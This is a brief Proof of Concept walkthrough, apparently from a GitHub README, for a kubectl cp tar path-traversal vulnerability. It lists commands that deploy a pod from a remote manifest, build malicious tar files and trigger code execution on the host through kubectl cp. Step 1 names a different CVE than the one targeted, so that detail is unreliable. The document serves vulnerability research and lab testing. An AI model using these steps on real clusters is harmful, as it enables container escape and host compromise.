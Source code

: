 ## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Prepare the environment using the following command in metarget's folder<br />
`./metarget cnv install cve-2016-5195`
2. Prepare the malicious Pod using the following command <br />
 `kubectl apply -f https://raw.githubusercontent.com/haseeb62/CVEs/main/CVE-2019-1002101/POC/ubuntu.yaml`
3. Exec in the pod and execute the scripts to prepare malicious files <br />
  `kubectl exec -it ubuntu -- /bin/bash` <br />
  `./setupTar.sh`<br />
  `./createPwnTar.sh`<br />
  
  
4. In the host, execute a copy command to copy a file from the pod to the host<br />
`sudo kubectl cp ubuntu:/tmp/twist twist`<br />
5. Open a new bash session and the command in `line 17` of `createPwnTar.sh` will be executed successfully.<br />


